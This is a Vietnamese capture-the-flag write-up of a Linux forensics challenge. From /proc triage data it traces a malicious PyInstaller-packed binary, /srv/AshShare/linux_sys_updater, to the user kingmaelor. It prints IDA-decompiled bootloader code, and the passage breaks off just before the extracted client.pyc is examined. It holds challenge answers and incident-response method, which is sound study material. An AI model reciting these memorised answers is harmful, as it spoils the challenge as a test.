# Challenge The Ash-Binder Signature

## 1. Which is the compromised system user that the attacker used? Specify the primary group it belongs to (e.g. username:group)

Câu hỏi này hỏi về tài khoản Linux nào đã bị attacker sử dụng để hoạt động trên máy, và cần tìm Primary group của tài khoản đó là group nào.

Lúc đầu tìm, nghĩ ngay tới `/etc/passwd`, nơi chứa thông tin về các tài khoản được tạo trên hệ thống. Tuy nhiên, file này chỉ cho biết danh sách user đang tồn tại cùng UID, GID, home directory và shell; nó không thể hiện tài khoản nào đã bị attacker sử dụng.

Thông thường, khi attacker sử dụng một tài khoản để hoạt động trên hệ thống, các lệnh hoặc chương trình độc hại được thực thi sẽ để lại dấu vết trong danh sách tiến trình. Vì vậy, pivot sang  kiểm tra các artefact liên quan đến process để tìm tiến trình bất thường, sau đó xác định user đang chạy tiến trình đó. Khi đã tìm được username, tôi mới quay lại `/etc/passwd` và `/etc/group` để xác định primary group.

Khi tra cứu dấu vết các process chạy để lại thường nằm ở đâu trên Linux



Vậy đi thử vào folder /proc/ trước



Giờ quét các thư mục con cấp đầu tiên trong `proc/` để lấy danh sách các PID đã được UAC thu thập.

```bash
find . -mindepth 1 -maxdepth 1 -type d -printf '%f\n' | sort -n
```



Lấy được các PID:

```text
1
7
8
23
24
27
80
86
94
95
99
100
103
2052
10602
```

Với mỗi folder PID trong /proc/<PID>/ thường sẽ chứa các file mô tả tiến trình tương ứng, chẳng hạn:

- comm: tên ngắn của process.
- cmdline: câu lệnh và các tham số dùng để khởi chạy process.
- status: trạng thái process, PID, PPID, UID và GID.
- exe: symbolic link trỏ tới file thực thi.
- cwd: thư mục làm việc hiện tại.
- environ: các biến môi trường.
- fd/: các file descriptor đang được process mở.
- maps: các vùng nhớ và file được ánh xạ vào process.

Ở đây mới chỉ có danh sách PID, chưa thể biết process nào là độc hại. Vì vậy bước tiếp theo là đọc comm và cmdline của từng PID để xem tên process và đường dẫn thực thi.

Sử dụng command để đọc các file `comm.txt` và `cmdline.txt` trong từng thư mục PID để xác định tên và câu lệnh khởi chạy của các process.

```text
=== PID 1 ===
supervisord
/usr/bin/python3
/usr/bin/supervisord
=== PID 100 ===
linux_sys_updat
/srv/AshShare/linux_sys_updater
=== PID 103 ===
uac
/bin/sh
/opt/uac/uac
ir_triage
/tmp/uac_output
!files/system/tmp*
=== PID 10602 ===
=== PID 2052 ===
uac
/bin/sh
/opt/uac/uac
ir_triage
/tmp/uac_output
!files/system/tmp*
=== PID 23 ===
apache2
/usr/sbin/apache2
FOREGROUND
=== PID 24 ===
apache2
/usr/sbin/apache2
FOREGROUND
=== PID 27 ===
apache2
/usr/sbin/apache2
FOREGROUND
=== PID 7 ===
apache2ctl
/bin/sh
/usr/sbin/apache2ctl
FOREGROUND
=== PID 8 ===
sshd
sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
=== PID 80 ===
bash
bash
=== PID 86 ===
sshd-session
sshd-session: kingmaelor [priv]
=== PID 94 ===
sshd-session
sshd-session: kingmaelor@pts/1
=== PID 95 ===
bash
-bash
=== PID 99 ===
linux_sys_updat
/srv/AshShare/linux_sys_updater
```

### Nhận xét

Kết quả cho thấy phần lớn tiến trình là các dịch vụ thông thường của hệ thống như `supervisord`, `apache2`, `sshd` và chính công cụ thu thập `uac`.

Tuy nhiên, có hai PID `99` và `100` cùng chạy một binary tên `linux_sys_updater` tại:

```text
/srv/AshShare/linux_sys_updater
```

Tên binary có vẻ giả dạng một chương trình cập nhật hệ thống, nhưng lại nằm trong thư mục chia sẻ /srv/AshShare/ thay vì các thư mục chứa executable hệ thống thông thường như /usr/bin hoặc /usr/sbin, nên đây là tiến trình đáng ngờ nhất.

Ngoài ra, danh sách còn cho thấy một phiên SSH của user kingmaelor, sau đó là một Bash shell:

```text
PID 86  → sshd-session: kingmaelor [priv]
PID 94  → sshd-session: kingmaelor@pts/1
PID 95  → -bash
```

Điều này cho thấy binary đáng ngờ có thể đã được chạy trong phiên đăng nhập của kingmaelor. Tuy nhiên, để xác nhận chắc chắn mối quan hệ này, cần kiểm tra PPid, Uid và Gid trong status.txt của PID 99 hoặc 100.

```bash
for pid in 99 100; do
    echo "=== PID $pid ==="
    grep -E '^(Name|Pid|PPid|Uid|Gid|Groups):' "$pid/status.txt"
    echo
done
=== PID 99 ===
Name:   linux_sys_updat
Pid:    99
PPid:   95
Uid:    1005    1005    1005    1005
Gid:    1011    1011    1011    1011
Groups: 27 1011
=== PID 100 ===
Name:   linux_sys_updat
Pid:    100
PPid:   99
Uid:    1005    1005    1005    1005
Gid:    1011    1011    1011    1011
Groups: 27 1011
```

### Nhận xét

Kết quả này nối được chuỗi tiến trình:

```text
PID 95  (-bash)
   └── PID 99  linux_sys_updater
          └── PID 100  linux_sys_updater
```

Và cả hai đều chạy với:

```text
UID = 1005
GID = 1011
```

Vậy sau khi có `UID` và `GID` của hai process nghi ngờ, kiểm tra nội dung trong file `/etc/passwd`, nơi lưu thông tin các tài khoản trên hệ thống, để ánh xạ UID `1005` sang username và lấy primary GID của tài khoản đó.

```bash
find -type f -path '*/etc/passwd'
```



Rồi check user có UID là 1005

```bash
awk -F: '$3 == 1005' ./[root]/etc/passwd
```



Kết quả thu được là:

```text
kingmaelor:x:1005:1011::/home/kingmaelor:/bin/bash
```

Một dòng trong /etc/passwd có cấu trúc:

```text
username:password:UID:GID:comment:home:shell
```

Từ đó xác định UID 1005 thuộc về user kingmaelor, đồng thời primary GID của tài khoản này là 1011

Tiếp tục tìm group có GID 1011 trong file /etc/group:

```bash
awk -F: '$3 == 1011' ./[root]/etc/group
```



Kết quả:

```text
crownspire:x:1011:lysaharrowmere,caldrinvowmark,rinkagetsura,keirunderbelly
```

Cấu trúc của một dòng trong `/etc/group` là:

```text
group_name:password:GID:members
```

Do đó GID 1011 tương ứng với group crownspire

**Đáp án:** `kingmaelor:crownspire`

## 2. The attacker implanted a malicious binary on the system, which is the full path? (e.g. /opt/binaryname)

Từ câu 1, process có  PID `99` và `100` cùng chạy một chương trình đáng ngờ. cũng đã xác định được path đầy đủ

```text
/srv/AshShare/linux_sys_updater
```

**Đáp án:** `/srv/AshShare/linux_sys_updater`

## 3. A custom traffic encryption logic is used, which is the Key used in AES? Specify it using MD5 hash of the value (e.g. 098f6bcd4621d373cade4e832627b4f6)

Ở câu trước đã xác định được file độc hại là:

```text
/srv/AshShare/linux_sys_updater
```

Khi kiểm tra bằng lệnh file, có thể thấy đây là một file thực thi ELF 64-bit dành cho kiến trúc x86-64:

```text
file linux_sys_updater
ELF 64-bit LSB executable, x86-64, dynamically linked, stripped
```



Sử dụng IDA để decompile

Tìm tới hàm main thì thấy nó trả về kết quả của hàm sub_404D90()



Thử xem và phân tích hàm sub_404D90()

```c
__int64 __fastcall sub_404D90(unsigned int *a1)
{
  char *v1; // r15
  char *v2; // rbp
  const char *v4; // r13
  ssize_t v5; // rax
  __int64 v6; // rax
  const char *v7; // r13
  __int64 v8; // rax
  __int64 v9; // rax
  const char *v10; // rax
  const char *v11; // rax
  char *v12; // r13
  int v13; // edx
  int v14; // ecx
  int v15; // r8d
  int v16; // r9d
  char *v17; // rsi
  const char *v18; // rax
  unsigned int v19; // ebp
  FILE *v20; // rax
  int v21; // edx
  int v22; // ecx
  int v23; // r8d
  int v24; // r9d
  FILE *v25; // r13
  int v26; // edx
  int v27; // ecx
  int v28; // r8d
  int v29; // r9d
  char *v30; // rax
  int v31; // r9d
  int v32; // edx
  int v33; // ecx
  int v34; // r8d
  int v35; // r9d
  __int64 v36; // r14
  _BYTE *i; // rax
  char *v38; // rax
  bool v39; // cf
  bool v40; // zf
  const char *v41; // rdi
  __int64 v42; // rcx
  __int64 v43; // rax
  void *v44; // r13
  char v45; // dl
  int v46; // edx
  int v47; // ecx
  int v48; // r8d
  int v49; // r9d
  char *v50; // r13
  char *v51; // rsi
  int v52; // edx
  int v53; // ecx
  int v54; // r8d
  int v55; // r9d
  char v56; // al
  int v57; // edx
  int v58; // ecx
  int v59; // r8d
  int v60; // r9d
  const char *v61; // rax
  int v62; // edx
  int v63; // ecx
  int v64; // r8d
  int v65; // r9d
  char *v66; // r12
  int v67; // edx
  int v68; // ecx
  int v69; // r8d
  int v70; // r9d
  __int64 v71; // rsi
  char *const *v72; // rax
  int v73; // edx
  int v74; // ecx
  int v75; // r8d
  int v76; // r9d
  char v77; // dl
  char v78; // al
  __int64 v79; // rax
  int v80; // esi
  int v81; // edx
  int v82; // ecx
  int v83; // r8d
  int v84; // r9d
  __int64 v85; // rdi
  int v86; // edx
  int v87; // ecx
  int v88; // r8d
  int v89; // r9d
  int v91; // edx
  int v92; // ecx
  int v93; // r8d
  int v94; // r9d
  int *v95; // rax
  unsigned int v96; // eax
  int v97; // edx
  int v98; // ecx
  int v99; // r8d
  int v100; // r9d
  char *v101; // rax
  int v102; // edx
  int v103; // ecx
  int v104; // r8d
  int v105; // r9d
  int v106; // edx
  int v107; // ecx
  int v108; // r8d
  int v109; // r9d
  char *ptr; // [rsp+8h] [rbp-10B0h]
  char *ptra; // [rsp+8h] [rbp-10B0h]
  char *ptrb; // [rsp+8h] [rbp-10B0h]
  char *endptr; // [rsp+18h] [rbp-10A0h] BYREF
  __int128 v114; // [rsp+20h] [rbp-1098h] BYREF
  __int128 v115; // [rsp+30h] [rbp-1088h]
  __int128 v116; // [rsp+40h] [rbp-1078h]
  __int128 v117; // [rsp+50h] [rbp-1068h]
  char v118; // [rsp+60h] [rbp-1058h]
  char dest[4104]; // [rsp+70h] [rbp-1048h] BYREF
  unsigned __int64 v120; // [rsp+1078h] [rbp-40h]
  v1 = (char *)a1 + 12361;
  v2 = (char *)(a1 + 8);
  v120 = __readfsqword(0x28u);
  v4 = **((const char ***)a1 + 1);
  v5 = readlink("/proc/self/exe", (char *)a1 + 32, 0xFFFu);
  if ( v5 != -1 )
  {
    *((_BYTE *)a1 + v5 + 32) = 0;
    v118 = 0;
    LODWORD(endptr) = 0;
    v114 = 0;
    v115 = 0;
    v116 = 0;
    v117 = 0;
    sub_405E90(dest, v2);
    if ( (unsigned int)__isoc99_sscanf(dest, "ld-%64[^.].so.%d", &v114, &endptr) != 2 )
      goto LABEL_3;
    goto LABEL_23;
  }
  v118 = 0;
  LODWORD(endptr) = 0;
  v114 = 0;
  v115 = 0;
  v116 = 0;
  v117 = 0;
  sub_405E90(dest, v2);
  if ( (unsigned int)__isoc99_sscanf(dest, "ld-%64[^.].so.%d", &v114, &endptr) == 2 )
LABEL_23:
    strncpy(v1, v2, 0x1000u);
  if ( !strchr(v4, 47) )
  {
    v101 = (char *)sub_409A40("PATH");
    ptrb = v101;
    if ( v101 )
    {
      if ( strtok(v101, ":") )
      {
        while ( !sub_405EB0(dest) || !(unsigned int)sub_405F50(dest) )
        {
          if ( !strtok(nullptr, ":") )
            goto LABEL_125;
        }
        free(ptrb);
        if ( !__realpath_chk(dest, v2, 4096) )
          return (unsigned int)-1;
        goto LABEL_3;
      }
LABEL_125:
      free(ptrb);
    }
  }
  if ( !__realpath_chk(v4, v2, 4096) )
    return (unsigned int)-1;
LABEL_3:
  v6 = sub_4025F0(v2);
  *((_QWORD *)a1 + 1028) = v6;
  if ( v6 )
  {
    v7 = (const char *)(a1 + 1032);
    snprintf((char *)a1 + 4128, 0x1000u, "%s", v2);
    v8 = *((_QWORD *)a1 + 1028);
    goto LABEL_5;
  }
  v20 = fopen(v2, "rb");
  v25 = v20;
  if ( !v20 )
  {
LABEL_119:
    v19 = -1;
    sub_4044F0(
      (unsigned int)"Could not load PyInstaller's embedded PKG archive from the executable (%s)\n",
      (_DWORD)a1 + 32,
      v21,
      v22,
      v23,
      v24);
    return v19;
  }
  *(_QWORD *)dest = 0xE0B0A0B0D49454DLL;
  if ( !sub_409730(v20, dest, 8u) )
  {
    fclose(v25);
    goto LABEL_119;
  }
  v7 = (const char *)(a1 + 1032);
  if ( (int)__snprintf_chk(a1 + 1032, 4096, 1, 4096, "%s.pkg", v2) > 4095 )
    return (unsigned int)-1;
  v8 = sub_4025F0(a1 + 1032);
  *((_QWORD *)a1 + 1028) = v8;
  if ( !v8 )
  {
    v19 = -1;
    sub_4044F0(
      (unsigned int)"Could not side-load PyInstaller's PKG archive from external file (%s)\n",
      (_DWORD)a1 + 4128,
      v26,
      v27,
      v28,
      v29);
    return v19;
  }
LABEL_5:
  *((_BYTE *)a1 + 8248) = *(_BYTE *)(v8 + 4120);
  v9 = *(_QWORD *)(v8 + 4128);
  *((_BYTE *)a1 + 8232) = v9 != 0;
  if ( v9 )
  {
    v30 = (char *)sub_409A40("PYINSTALLER_SUPPRESS_SPLASH_SCREEN");
    if ( v30 )
      *((_BYTE *)a1 + 8233) = strcmp(v30, "1") == 0;
    free(v30);
  }
  v10 = (const char *)sub_409A40("PYINSTALLER_RESET_ENVIRONMENT");
  if ( v10 )
  {
    ptr = (char *)v10;
    if ( !strcmp(v10, "1") )
    {
      j__unsetenv("PYINSTALLER_RESET_ENVIRONMENT");
      free(ptr);
      goto LABEL_9;
    }
    j__unsetenv("PYINSTALLER_RESET_ENVIRONMENT");
    free(ptr);
  }
  v18 = (const char *)sub_409A40("_PYI_ARCHIVE_FILE");
  if ( v18 )
  {
    ptra = (char *)v18;
    if ( !strcmp(v7, v18) )
    {
      free(ptra);
      goto LABEL_10;
    }
    free(ptra);
  }
LABEL_9:
  sub_409A70("_PYI_ARCHIVE_FILE", v7);
  j__unsetenv("_PYI_APPLICATION_HOME_DIR");
  j__unsetenv("_PYI_PARENT_PROCESS_LEVEL");
  j__unsetenv("_PYI_SPLASH_IPC");
  j__unsetenv("_PYI_LINUX_PROCESS_NAME");
LABEL_10:
  v11 = (const char *)sub_409A40("_PYI_PARENT_PROCESS_LEVEL");
  v12 = (char *)v11;
  if ( v11 && *v11 )
  {
    *((_BYTE *)a1 + 8250) = strtol(v11, &endptr, 0);
    if ( *endptr )
    {
      v19 = -1;
      sub_4044F0((unsigned int)"Invalid value in _PYI_PARENT_PROCESS_LEVEL: %s\n", (_DWORD)v12, v91, v92, v93, v94);
      return v19;
    }
  }
  else
  {
    *((_BYTE *)a1 + 8250) = -2;
  }
  free(v12);
  LODWORD(v17) = *((char *)a1 + 8250);
  if ( *((_BYTE *)a1 + 8250) == 0xFF )
  {
    if ( !*((_BYTE *)a1 + 8248) )
    {
LABEL_36:
      *((_BYTE *)a1 + 8249) = 1;
      v31 = 1;
      goto LABEL_37;
    }
  }
  else
  {
    if ( *((char *)a1 + 8250) > -1 )
    {
      if ( (_BYTE)v17 )
      {
        if ( (_BYTE)v17 == 1 )
        {
          *((_BYTE *)a1 + 8249) = 2;
          goto LABEL_38;
        }
LABEL_110:
        v19 = -1;
        sub_4044F0((unsigned int)"Invalid parent process level: %d\n", (_DWORD)v17, v13, v14, v15, v16);
        return v19;
      }
      goto LABEL_36;
    }
    if ( (_BYTE)v17 != 0xFE )
      goto LABEL_110;
    if ( !*((_BYTE *)a1 + 8248) || *((_BYTE *)a1 + 8232) && !*((_BYTE *)a1 + 8233) )
    {
      *((_BYTE *)a1 + 8249) = -1;
      v31 = -1;
      goto LABEL_37;
    }
  }
  *((_BYTE *)a1 + 8249) = 0;
  v31 = 0;
LABEL_37:
  __snprintf_chk(dest, 8, 1, 8, "%d", v31);
  v17 = dest;
  if ( (int)sub_409A70("_PYI_PARENT_PROCESS_LEVEL", dest) < 0 )
  {
    v19 = -1;
    sub_4044F0(
      (unsigned int)"Failed to set _PYI_PARENT_PROCESS_LEVEL environment variable!\n",
      (unsigned int)dest,
      v32,
      v33,
      v34,
      v35);
    return v19;
  }
LABEL_38:
  v36 = *((_QWORD *)a1 + 1028);
  for ( i = *(_BYTE **)(v36 + 4104); (unsigned __int64)i < *(_QWORD *)(v36 + 4112); i = (_BYTE *)sub_402160(v36, i) )
  {
    if ( i[17] == 111 )
    {
      if ( !memcmp(i + 18, "pyi-python-flag", 0xFu) )
      {
        if ( !memcmp(i + 34, "Py_GIL_DISABLED", 0xFu) )
          *((_BYTE *)a1 + 16489) = 1;
      }
      else
      {
        if ( !memcmp(i + 18, "pyi-runtime-tmpdir", 0x12u) )
          *((_QWORD *)a1 + 2059) = i + 37;
        if ( !memcmp(i + 18, "pyi-contents-directory", 0x16u) )
          *((_QWORD *)a1 + 2060) = i + 41;
        if ( !memcmp(i + 18, "pyi-bootloader-ignore-signals", 0x1Du) )
          *((_BYTE *)a1 + 16488) = 1;
      }
    }
    LODWORD(v17) = (_DWORD)i;
  }
  v38 = (char *)sub_409A40("PYINSTALLER_STRICT_UNPACK_MODE");
  v39 = 0;
  v40 = v38 == nullptr;
  if ( v38 )
  {
    v41 = "0";
    v42 = 2;
    v17 = v38;
    do
    {
      if ( !v42 )
        break;
      v39 = (unsigned __int8)*v17 < (unsigned int)*v41;
      v40 = *v17++ == *v41++;
      --v42;
    }
    while ( v40 );
    *((_BYTE *)a1 + 12360) = (!v39 && !v40) != v39;
  }
  free(v38);
  if ( *((_BYTE *)a1 + 8250) == 0xFE )
  {
    v17 = dest;
    if ( !prctl(16, dest, 0, 0) )
    {
      v17 = dest;
      sub_409A70("_PYI_LINUX_PROCESS_NAME", dest);
    }
  }
  else
  {
    v43 = sub_409A40("_PYI_LINUX_PROCESS_NAME");
    v44 = (void *)v43;
    if ( v43 )
    {
      LODWORD(v17) = v43;
      prctl(15, v43, 0, 0);
    }
    free(v44);
  }
  if ( !*((_BYTE *)a1 + 8248) )
  {
    v50 = (char *)a1 + 8251;
    sub_405E00(dest);
    if ( *((_QWORD *)a1 + 2060) )
    {
      v51 = dest;
      sub_405EB0((char *)a1 + 8251);
    }
    else
    {
      LODWORD(v51) = 4096;
      snprintf((char *)a1 + 8251, 0x1000u, "%s", dest);
    }
    goto LABEL_66;
  }
  v45 = *((_BYTE *)a1 + 8249);
  if ( v45 == -1 || (a1[2062] & 0xFFFF00) != 0xFF0000 && !v45 )
  {
    if ( (int)sub_409A90(a1) < 0 )
    {
      v19 = -1;
      sub_4044F0((unsigned int)"Could not create temporary directory!\n", (_DWORD)v17, v46, v47, v48, v49);
      return v19;
    }
    v50 = (char *)a1 + 8251;
    LODWORD(v51) = (_DWORD)a1 + 8251;
    if ( (int)sub_409A70("_PYI_APPLICATION_HOME_DIR", (char *)a1 + 8251) < 0 )
    {
      v19 = -1;
      sub_4044F0(
        (unsigned int)"Failed to set application home directory via environment variable!\n",
        (_DWORD)v51,
        v52,
        v53,
        v54,
        v55);
      return v19;
    }
LABEL_66:
    v56 = *((_BYTE *)a1 + 8249);
    if ( v56 != -1 )
      goto LABEL_67;
    goto LABEL_75;
  }
  v61 = (const char *)sub_409A40("_PYI_APPLICATION_HOME_DIR");
  v66 = (char *)v61;
  if ( !v61 || !*v61 )
  {
    v19 = -1;
    sub_4044F0(
      (unsigned int)"_PYI_APPLICATION_HOME_DIR environment variable is not defined!\n",
      (_DWORD)v17,
      v62,
      v63,
      v64,
      v65);
    return v19;
  }
  v50 = (char *)a1 + 8251;
  LODWORD(v51) = 4096;
  if ( snprintf((char *)a1 + 8251, 0x1000u, "%s", v61) > 4095 )
  {
    v19 = -1;
    sub_4044F0((unsigned int)"Path exceeds PYI_PATH_MAX limit.\n", 4096, v67, v68, v69, v70);
    free(v66);
    return v19;
  }
  free(v66);
  v56 = *((_BYTE *)a1 + 8249);
  if ( v56 == -1 )
  {
LABEL_75:
    if ( (unsigned int)sub_409DC0(v50) == -1 )
    {
LABEL_70:
      v19 = -1;
      sub_4044F0(
        (unsigned int)"Failed to set library search path via environment variable!\n",
        (_DWORD)v51,
        v57,
        v58,
        v59,
        v60);
      return v19;
    }
    if ( *((_BYTE *)a1 + 12361) )
    {
      v71 = *((_QWORD *)a1 + 1);
      v72 = (char *const *)sub_40A060(*a1, v71, v1);
      if ( !v72 )
      {
        v19 = -1;
        sub_4044F0((unsigned int)"LOADER: failed to allocate argv array for execvp!\n", v71, v73, v74, v75, v76);
        return v19;
      }
      if ( execvp(v1, v72) >= 0 )
        goto LABEL_79;
    }
    else if ( execvp(v2, *((char *const **)a1 + 1)) >= 0 )
    {
      goto LABEL_79;
    }
    v95 = __errno_location();
    v96 = (unsigned int)strerror(*v95);
    sub_4044F0((unsigned int)"LOADER: failed to restart process: %s\n", v96, v97, v98, v99, v100);
    return (unsigned int)-1;
  }
LABEL_67:
  if ( !v56 && *((_BYTE *)a1 + 8250) != 0xFF && (unsigned int)sub_409DC0(v50) == -1 )
    goto LABEL_70;
LABEL_79:
  if ( !*((_BYTE *)a1 + 8232) )
  {
LABEL_90:
    v78 = *((_BYTE *)a1 + 8248);
    goto LABEL_92;
  }
  if ( *((_BYTE *)a1 + 8233) || (v77 = *((_BYTE *)a1 + 8249), v77 > 1) )
  {
    sub_409A70("_PYI_SPLASH_IPC", "0");
    v78 = *((_BYTE *)a1 + 8248);
    goto LABEL_92;
  }
  v78 = *((_BYTE *)a1 + 8248);
  if ( v78 && !v77 || *((_WORD *)a1 + 4124) == 256 )
  {
    v79 = sub_409090();
    v80 = (int)a1;
    *((_QWORD *)a1 + 1030) = v79;
    if ( (unsigned int)sub_408BA0(v79, a1) )
    {
      sub_404430((unsigned int)"Failed to load splash screen resources!\n", (_DWORD)a1, v81, v82, v83, v84);
    }
    else
    {
      v85 = *((_QWORD *)a1 + 1030);
      if ( !*((_BYTE *)a1 + 8248) )
        goto LABEL_87;
      v80 = (int)a1;
      if ( !(unsigned int)sub_408DF0(v85, a1) )
      {
        v85 = *((_QWORD *)a1 + 1030);
LABEL_87:
        if ( (unsigned int)sub_409050(v85) )
        {
          sub_404430(
            (unsigned int)"Failed to load Tcl/Tk shared libraries for splash screen!\n",
            v80,
            v86,
            v87,
            v88,
            v89);
        }
        else
        {
          if ( !(unsigned int)sub_409340(*((_QWORD *)a1 + 1030), v2) )
            goto LABEL_90;
          sub_404430((unsigned int)"Failed to start splash screen!\n", (_DWORD)v2, v106, v107, v108, v109);
        }
        goto LABEL_89;
      }
      sub_404430(
        (unsigned int)"Failed to unpack splash screen dependencies from PKG archive!\n",
        (_DWORD)a1,
        v102,
        v103,
        v104,
        v105);
    }
LABEL_89:
    sub_409260(*((_QWORD *)a1 + 1030));
    sub_4090E0(a1 + 2060);
    goto LABEL_90;
  }
LABEL_92:
  if ( !v78 || *((_BYTE *)a1 + 8249) )
  {
    nullsub_2(a1);
    v19 = sub_404C80(a1);
    sub_404CF0(a1);
    sub_409260(*((_QWORD *)a1 + 1030));
    sub_4090E0(a1 + 2060);
    return v19;
  }
  if ( (int)sub_4049A0(a1) < 0 )
    return (unsigned int)-1;
  v19 = sub_40A0B0(a1);
  if ( (int)sub_404D10(a1) < 0 )
    v19 = -1;
  if ( a1[4116] )
    raise(a1[4117]);
  return v19;
}
```

Đầu tiên, chương trình tự xác định đường dẫn file thực thi hiện tại thông qua `/proc/self/exe`:

```c
v5 = readlink("/proc/self/exe", (char *)a1 + 32, 0xFFFu);
```

Tiếp theo, chương trình tìm và nạp một archive được nhúng bên trong executable. Thông báo lỗi hiển thị trực tiếp tên PyInstaller:

```c
sub_4044F0(
    "Could not load PyInstaller's embedded PKG archive from the executable (%s)\n",
    ...
);
```

Nếu không tìm thấy archive nhúng, nó còn thử nạp một file .pkg nằm cạnh executable:

```c
snprintf((char *)a1 + 4128, 0x1000u, "%s.pkg", v2);
Ngoài ra, hàm còn thao tác với nhiều biến môi trường đặc trưng của PyInstaller:
sub_409A40("PYINSTALLER_SUPPRESS_SPLASH_SCREEN");
sub_409A40("PYINSTALLER_RESET_ENVIRONMENT");
sub_409A40("_PYI_ARCHIVE_FILE");
sub_409A40("_PYI_PARENT_PROCESS_LEVEL");
sub_409A40("_PYI_APPLICATION_HOME_DIR");
```

Trong archive cũng xuất hiện các entry có prefix pyi-:

```text
"pyi-python-flag"
"pyi-runtime-tmpdir"
"pyi-contents-directory"
"pyi-bootloader-ignore-signals"
```

Cuối cùng, bootloader chuẩn bị thư mục tạm, thiết lập môi trường rồi khởi động lại hoặc thực thi chương trình đã được unpack:

```c
execvp(v1, v72);
```

Những dấu hiệu trên cho thấy phần code IDA đang decompile chủ yếu là PyInstaller bootloader, có nhiệm vụ tìm archive, giải nén các thành phần Python và khởi chạy chương trình thật. Ngoài ra, khi tìm các hàm hoặc chuỗi liên quan đến `AES`, `SHA256`, `MODE_CBC` hay quá trình sinh key, cũng không thấy hàm nào chứa logic mã hóa traffic của malware.

Vì vậy không tiếp tục reverse mà sử dụng pyinstxtractor-ng để trích xuất Python bytecode được nhúng trong binary.

```bash
pyinstxtractor-ng linux_sys_updater
```

Sau khi extract, chú ý vào file `client.pyc`:

